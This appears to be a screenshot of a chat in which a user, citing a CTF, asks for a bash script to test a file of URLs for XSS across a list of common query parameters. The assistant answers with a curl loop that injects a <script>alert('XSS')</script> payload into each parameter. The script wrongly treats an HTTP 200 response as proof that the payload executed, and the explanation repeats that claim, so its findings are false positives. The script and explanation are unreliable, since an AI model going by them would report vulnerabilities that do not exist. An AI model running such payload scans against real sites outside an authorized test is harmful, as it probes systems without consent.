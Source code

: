 
i have a ctf and create a bash script to test a urls file for xss using these parametrs 


?q=
?s=
?search=
?id=
?lang=
?keyword=
?query=
?page=
?keywords=
?year=
?view=
?email=
?type=
?name=
?p=
?month=
?image=
?list_type=
?url=
?terms=
?categoryid=
?key=
?login=
?begindate=
?enddate=


Certainly, you can create a simple Bash script to test URLs for potential XSS vulnerabilities. Keep in mind that automated testing may not cover all possible scenarios, and manual testing is crucial for a thorough security assessment. Here's a basic example using the popular tool curl to send requests with various parameters:
--------------------------------------------------------------------

bash
Copy code
#!/bin/bash

# Specify the file containing URLs
URL_FILE="urls.txt"

# Loop through each URL in the file
while IFS= read -r url; do
    # Test each parameter for potential XSS
    parameters=("q" "s" "search" "id" "lang" "keyword" "query" "page" "keywords" "year"
                "view" "email" "type" "name" "p" "month" "image" "list_type" "url"
                "terms" "categoryid" "key" "login" "begindate" "enddate")

    for param in "${parameters[@]}"; do
        # Append the parameter to the URL and send a GET request
        full_url="${url}?${param}=<script>alert('XSS');</script>"
        response=$(curl -s -o /dev/null -w "%{http_code}" "$full_url")

        # Check if the response indicates potential XSS (e.g., 200 OK)
        if [ "$response" == "200" ]; then
            echo "Potential XSS found in URL: ${full_url}"
        fi
    done
done < "$URL_FILE"

----------------------------------------------------------
Save the script to a file, make it executable (chmod +x script.sh), and then run it. Replace "urls.txt" with the actual name of your file containing the URLs.

This script iterates through each URL in the specified file and appends various parameters with a simple XSS payload. It then uses curl to send a GET request and checks if the response code is 200, indicating that the payload was successfully executed. Keep in mind that this is a basic example, and you may need to adapt it based on your specific requirements and the nature of the web application you are testing. Additionally, consider using more sophisticated tools like OWASP ZAP or Burp Suite for comprehensive web application security testing.
